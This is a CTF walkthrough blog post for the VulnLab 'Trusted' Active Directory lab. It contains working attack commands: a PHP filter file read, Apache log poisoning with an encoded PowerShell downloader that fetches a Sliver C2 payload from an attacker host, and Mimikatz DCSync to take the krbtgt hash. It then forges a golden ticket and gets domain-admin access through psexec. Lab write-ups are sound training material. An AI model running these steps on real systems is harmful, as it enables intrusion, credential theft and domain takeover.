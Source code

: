 ```yaml
---
title: "Trusted Writeup (VulnLab)"
date: 2025-05-21 00:00:00 +0800
image: /assets/posts/trusted/trustedPwn.png
description: An easy rated chain on vulnlab, utilising apache log poisoning for initial access, with bidirectional trust abuse and golden tickets for root.
categories: [CTF Writeups]
tags: [CTF, Red Team, Poisoning, Domain Trusts, Golden Tickets, C2, Active Directory]
---
```


# Introduction
This box presents a multi-stage Active Directory attack path across a trusted domain setup. Starting with an Apache log poisoning vulnerability for initial access, we go deeper into the environment by leveraging cross-domain trust. Through post-exploitation and enumeration, we discover a bidirectional trust between domains—allowing for a DCSync attack to extract the krbtgt hash and create a Golden Ticket, granting access to the root domain controller.

## NMAP Port scans
We start off our writeup with an NMAP scan targeting 2 IP Addresses, they include:
```bash
10.10.218.86
10.10.218.85
```
```bash
sudo nmap -sS -sV -A -p- --min-rate 2500 -iL hosts.txt -oA nmapScan --disable-arp-ping --source-port=53
```
![NMAP Scan Result](../assets/posts/trusted/nmapscanresult1.png)
![NMAP Scan Result 2](../assets/posts/trusted/nmapscanresult2.png)


## User Flag

### HTTP Enumeration
From the results, it is clear that these machines are both Domain Controllers (DCs). I’ll target the ‘labdc.lab.trusted.vl’ DC first, by browsing to the site on Port 80 HTTP: 
![xampp](../assets/posts/trusted/xampp.png)
The site showcases a default XAMPP webpage, we can perform directory brute-forcing using feroxbuster in an attempt to uncover any hidden directories that exist:
```bash
feroxbuster -u http://labdc.lab.trusted.vl -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -t 20
```
```bash
301      GET        9l       30w      350c http://labdc.lab.trusted.vl/dev => http://labdc.lab.trusted.vl/dev/
301      GET        9l       30w      357c http://labdc.lab.trusted.vl/dev/images => http://labdc.lab.trusted.vl/dev/images/
301      GET        9l       30w      354c http://labdc.lab.trusted.vl/dev/css => http://labdc.lab.trusted.vl/dev/css/
200      GET      612l     1583w    11331c http://labdc.lab.trusted.vl/dev/css/style.css
200      GET       31l      195w    17155c http://labdc.lab.trusted.vl/dev/images/logo.png
200      GET       35l      209w    17125c http://labdc.lab.trusted.vl/dev/images/meeting.jpg
200      GET       30l      162w    11333c http://labdc.lab.trusted.vl/dev/images/smile.jpg
200      GET       24l      156w    11896c http://labdc.lab.trusted.vl/dev/images/family-small.jpg
```
A directory is discovered under ‘/dev’, manually viewing this webpage presents us with a lawyer's website along with a suspicious parameter ‘?view=’:
![http1](../assets/posts/trusted/http1.png)

### Apache Log Poisoning to C2 Session
We can exploit the discovered parameter through apache log poisoning, this was uncovered after manually viewing the source code of the index page through php filtering:
```bash
https://labdc.lab.trusted.vl/dev/index.html?view=php://filter/convert.base64-encode/resource=index.html
```
```bash
base64 -d source.b64 > index.html
```
![httpvuln1](../assets/posts/trusted/httpvuln1.png)
The vulnerable area is the unsanitised usage of PHP’s include function. We can check for the existence of the access.log file to see if it’d be vulnerable to log poisioning:
```bash
https://labdc.lab.trusted.vl/dev/index.html?view=C:/xampp/apache/logs/access.log
```
![httpvuln2](../assets/posts/trusted/httpvuln2.png)

After confirmation that the access.log file exists on the server, we can create a powershell payload to be executed, this code downloads a Sliver session payload, stores it in the users temp directory and proceeds to execute it:
```bash
$u="http://10.8.4.194:443/output.exe";$f="$env:TEMP\output.exe.exe";Invoke-WebRequest $u -OutFile $f;Start-Process $f
```
With our completed payload, we have to convert it into UTF-16LE and then base64 encode so it is in a readable format for powershell. Then we can finally send our payload as the user-agent to the website:
```bash
 curl -A "<?php system('powershell -e JAB1AD0AIgBoAHQAdABwADoALwAvADEAMAAuADgALgA0AC4AMQA5ADQAOgA0ADQAMwAvAG8AdQB0AHAAdQB0AC4AZQB4AGUAIgA7ACQAZgA9ACIAJABlAG4AdgA6AFQARQBNAFAAXABvAHUAdABwAHUAdAAuAGUAeABlAC4AZQB4AGUAIgA7AEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgACQAdQAgAC0ATwB1AHQARgBpAGwAZQAgACQAZgA7AFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAkAGYACgA='); ?>" http://labdc.lab.trusted.vl/dev/index.html?view=me
 ```
 We can then execute the payload by visiting the access.log file:
 ```bash
 curl -X GET https://labdc.lab.trusted.vl/dev/index.html?view=C:/xampp/apache/logs/access.log --insecure
 ```

 Accessing the file automatically executes our powershell payload and we are granted a C2 Session:
 ![session](../assets/posts/trusted/session.png)

 We can read the user.txt flag from the directory 'C:\users\Administrator\Desktop\user.txt':
 ```bash
 type C:\users\Administrator\Desktop\user.txt
 ```
![session](../assets/posts/trusted/user.png)

## Root Flag

### LABDC.lab.trusted.vl Enumeration and Post-Exploitation
 We can then gather domain information using sliver’s armory implementation of sharphound:
 ```bash
 sharp-hound-4 -s -t 300 -- -c all,gpolocalgroup
 ```
 ![sharp](../assets/posts/trusted/sharp.png)
 SharpHound didn’t yield any useful results, however we know from previous enumeration that lab.trusted.vl is a child domain of trusted.vl. Mimikatz can be used to enumerate the inbound and outbound trusts:
 ```bash
 mimikatz "privilege::debug" "\"lsadump::trust /patch"
 ```
![mimitrust](../assets/posts/trusted/mimitrust.png)
From the mimikatz output, it is clear there is a bidirectional trust between the child and root domain, the domain SIDS are retrieved from the mimikatz output.
```bash
LAB.TRUSTED.VL (LAB / S-1-5-21-2241985869-2159962460-1278545866)
TRUSTED.VL (TRUSTED / S-1-5-21-3576695518-347000760-3731839591)
```

### Abusing Bidirectional Trust: DCSync to Golden Ticket
As there is a bidirectional trust, we can DCSync and grab the ‘krbtgt’ hash from the compromised 'labdc.lab.trusted.vl' machine. To later perform a golden ticket attack:
```bash
mimikatz "privilege::debug" "\"lsadump::dcsync /domain:lab.trusted.vl /user:LAB\krbtgt"
```
![mimidcsync](../assets/posts/trusted/mimidcsync.png)
After successful retrieval of the krbtgt hash, we can combine the domain sids and the hash to create a golden ticket for the root domain ‘trusted.vl’:
```bash
impacket-ticketer -nthash c7a03c565c68c6fac5f8913fab576ebd -domain lab.trusted.vl -domain-sid "S-1-5-21-2241985869-2159962460-1278545866" -extra-sid "S-1-5-21-3576695518-347000760-3731839591-512" Administrator -extra-pac
```
![gldnticket](../assets/posts/trusted/gldnticket.png)
With our golden ticket now created, we can set it as our kerberos ticket within the attacking OS:
```bash
export KRB55CNAME=Administrator.ccache
```
Then finally, psexec into the ‘trusteddc.trusted.vl’ domain controller using our golden ticket:
```bash
impacket-psexec 'lab.trusted.vl/Administrator@trusteddc.trusted.vl' -k -no-pass -target-ip 10.10.218.85
```
![psexec](../assets/posts/trusted/psexec.png)

As we are now logged in as NT AUTHORITY\SYSTEM, we can read the root flag right? WRONG!. The flag is EFS encrypted, therefore, we must reset the Administrators password and RDP into the box to decrypt the flag:
```bash
net user Administrator password123456@
```
```bash
xfreerdp3 /u:Administrator /p:password123456@ /v:trusteddc.trusted.vl +clipboard
```
![root](../assets/posts/trusted/root.png)
